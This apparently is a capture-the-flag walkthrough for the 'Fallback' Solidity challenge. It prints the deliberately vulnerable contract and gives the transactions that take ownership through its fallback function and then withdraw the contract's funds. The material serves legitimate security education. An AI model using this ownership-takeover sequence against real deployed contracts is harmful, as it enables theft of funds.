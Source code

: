 To defeat this challenge, we need to claim the ownership by writing 
the value of `owner` to the player's address. 
There are two methods that allow us to exploit this:


````
pragma solidity ^0.4.18;

import 'zeppelin-solidity/contracts/ownership/Ownable.sol';

contract Fallback is Ownable {

  mapping(address => uint) public contributions;

  function Fallback() public {
    contributions[msg.sender] = 1000 * (1 ether);
  }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    owner.transfer(this.balance);
  }

  function() payable public {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
````

* `contribute` by calling it many times with value < 0.001 ether (quite small). Look at
the balance of the owner in contributions, it's 1000. 
If we want to claim ownership through `contribute` method, we need to call 
it more than 1 millions times. This is not feasible.

* Through fallback function: It requires that the player needs to contribute at least a small amount
of ether for `contributes[msg.sender] > 0`.
It turns out that the only way is to send some ether < 0.001 via `contribute`, which can receive ether.

We then need to make two transactions to claim ownership:

1. send ether via calling contribute: 

````
await contract.contribute({from:player, value: toWei(0.0005)})
````

2. send ether via fallback function

```
sendTransaction({from: player, to: instance, value: toWei(0.0005)})
```

Then we can call `withdraw` the reduce the balance of the contract to zero
```
await contract.withdraw({from: player, to: instance})
```

Now we can submit to finish the level.